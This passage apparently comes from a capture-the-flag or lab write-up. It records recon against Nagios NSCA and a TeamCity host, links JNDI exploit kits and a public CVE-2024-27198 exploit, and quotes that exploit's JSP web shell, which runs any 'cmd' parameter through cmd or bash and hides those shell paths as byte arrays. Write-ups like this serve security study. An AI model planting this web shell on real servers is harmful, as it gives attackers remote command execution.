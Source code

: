 
[Nagios NSCA](https://exchange.nagios.org/directory/Addons/Passive-Checks/NSCA--2D-Nagios-Service-Check-Acceptor/details) - Nagios Service Check Acceptor
![](curlnagiosversionquestionmark.png)

![](nagiosnotfoundacceptor.png)

Took the search-engine dork bait for potential similar exploit chains - enjoy the helped-thorough
![](tookthehitandlookedforsimiliarlog4j.png)

Learnt of [welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) *"JNDI注入测试工具（A tool which generates JNDI links can start several servers to exploit JNDI Injection vulnerability, like Jackson, Fastjson, etc)"* and pimps fork [https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) *"JNDI-Exploitation-Kit（A modified version of the great JNDI-Injection-Exploit created by @welk1n. This tool can be used to start an HTTP Server, RMI Server and LDAP Server to exploit java web apps vulnerable to JNDI Injection）"*

Hint from the team - hostname of teamcity
![](teamcity.png)

![](jhaddixwordlists-teamcity.png)


![](nucleitheteamcity.png)

![](limitedadminactionspossible.png)


- https://raw.githubusercontent.com/W01fh4cker/CVE-2024-27198-RCE/main/CVE-2024-27198-RCE.py


```java
  evil_plugin_jsp = r"""<%@ page pageEncoding="utf-8"%>
<%@ page import="java.util.Scanner" %>
<%
    String op="";
    String query = request.getParameter("cmd");
    String fileSeparator = String.valueOf(java.io.File.separatorChar);
    Boolean isWin;
    if(fileSeparator.equals("\\")){
        isWin = true;
    }else{
        isWin = false;
    }
    if (query != null) {
        ProcessBuilder pb;
        if(isWin) {
            pb = new ProcessBuilder(new String(new byte[]{99, 109, 100}), new String(new byte[]{47, 67}), query);
        }else{
            pb = new ProcessBuilder(new String(new byte[]{47, 98, 105, 110, 47, 98, 97, 115, 104}), new String(new byte[]{45, 99}), query);
        }
        Process process = pb.start();
        Scanner sc = new Scanner(process.getInputStream()).useDelimiter("\\A");
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
    }
%>
<%= op %>
"""
```
